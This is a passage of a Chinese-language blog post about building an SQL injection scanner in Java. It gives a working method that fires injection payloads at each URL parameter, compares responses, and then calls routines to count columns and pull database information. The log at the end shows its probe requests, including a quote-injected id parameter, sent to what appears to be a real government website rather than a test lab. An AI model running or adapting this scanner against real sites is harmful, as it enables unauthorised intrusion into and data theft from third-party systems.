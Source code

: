 这个方法主要是去分析 URL 的组成是否静态化等。

2、检测是否存在：

这个做的粗糙了些，只是通过请求提交不同的 SQL 注入语句去检测页面返回的情况：

```
/**
     * 分析 SQL 参数是否存在注入
     * @param str
     */
    public static void  AnalysisUrlDynamicParamSqlInjection(String str[]) {
        Map<String,Object> content,content2;
        sqlKey = new ArrayList<Object>();
        content = HttpHelper.sendGet(protocol+"://"+schema+":"+port+"/"+filesIndex+"/"+file,parameter);//原始的请求包
        int len1 = content.get("content").toString().length();//原始请求的 response 长度
        boolean typeIsNumber = false;
        String c1[] = {"'","-1",")\"\"\"\"\"()()",")+ANd+3815=3835+ANd+(1471=1471",") ANd+9056=9056+ANd+(9889=9889"," ANd+6346=6138 "," ANd+9056=9056"};//需要检查的对象
        for (int i = 0; i < str.length; i++) {
            typeIsNumber = StringUtil.isNotEmpty(str[i].split("="))&&StringUtil.isNum(str[i].split("=")[1])?true:false;
            for (int j = 0; j < c1.length; j++) {
                content2 = HttpHelper.sendGet(protocol+"://"+schema+":"+port+"/"+filesIndex+"/"+file,parameter.replace(str[i], str[i].split("=")[0]+"="+str[i].split("=")[1]+c1[j]));
                if (len1 != content2.get("content").toString().length()||(Integer)content2.get("status")!=200) {
                    existsInjection = true;
                    sqlKey.add(str[i]);
                    break ;
                }
            }
        }
        if (existsInjection) {
//              System.out.println(existsInjection?"Site:"+url+" 可能存在"+(typeIsNumber?"int":"String")+"型 Sql 注入"+"SQL 注入.":"Not Found.");
            getSelectColumnCount(str);
            getDatabaseInfo();
        }
    } 
```

检测过程主要发送了几次请求，一次正常的请求和 N 次带有 SQL 注入的请求。如果 SQL 注入的请求和正常请求的结果不一致（有不可控因素，比如 SQLMAP 的实现方式就有去计算页面是否稳定，从而让检测出来的结果更加准确）就可能是存在 SQL 注入。

日志如下：

```
url:http://www.tchjbh.gov.cn:80//news_display.php
param:id=148
url:http://www.tchjbh.gov.cn:80//news_display.php
param:id=148'
url:http://www.tchjbh.gov.cn:80//news_display.php
param:id=148 
```
